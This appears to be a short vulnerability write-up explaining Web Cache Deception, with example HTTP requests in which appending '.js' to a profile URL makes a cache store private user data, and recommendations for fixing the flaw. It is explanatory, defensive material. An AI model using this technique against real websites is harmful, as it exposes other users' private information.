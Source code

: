 # Web Cache Deception
The vulnerability found concerns a misconfiguration of the web cache that allows an attacker to access private or sensitive content intended only for authenticated users.
By manipulating the URL, the attacker can trick the cache system and force the caching of a response containing confidential information.

# How to exploit
Here is a concrete example of how a discrepancy in path mapping within a web app can be exploited to perform a Web Cache Deception attack. Suppose we have a web app with an area reserved for user profiles

The authenticated user can access their profile page via the following URL:
**GET /user/123/profile HTTP/1.1**

**Host: www.example.com**

Server response:

HTTP/1.1 200 OK
Content-Type: text/html
Cache-Control: no-store
Cf-Cache-Status: BYPASS

<html>
<body>
Profilo di Jacopo
<p>Email: jacopo@example.com</p>
<p>Indirizzo: xxxxx</p>
</body>
</html>

In this case, the server correctly returns the profile information of authenticated user 123 (jacopo) and does not cache the response thanks to the Cache-Control: no-store header

**Attempted Web Cache Deception:**

The attacker could manipulate the URL by adding a commonly cacheable extension such as .js, thereby tricking the cache system into storing the response

**GET /user/123/profile.js HTTP/1.1
Host: www.example.com**

Server response:

HTTP/1.1 200 OK
Content-Type: text/html
Cache-Control: public, max-age=3600
Cf-Cache-Status: **HIT**

 the origin server might treat the URL **/user/123/profile.js** as if it were a normal request for user profile 123, ignoring the .js extension. However, the caching system might interpret the URL as a static resource (a .js file) and decide to cache the response


At this point, any user (authenticated or not) accessing the same manipulated URL in incognito mode or from another device will get the response cached with the sensitive profile data of user 123

**GET /user/123/profile.js HTTP/1.1
Host: www.example.com**

# Recommendations:
Disable caching for sensitive content: Correctly set cache headers, such as Cache-Control: no-store, for all sensitive resources and pages requiring authentication.

Path validation: Implement control logic on URLs to reject requests with unexpected extensions or unusual syntax.

Authentication control: Ensure that every request to sensitive resources always performs an authentication check, even if the resource has been previously cached.





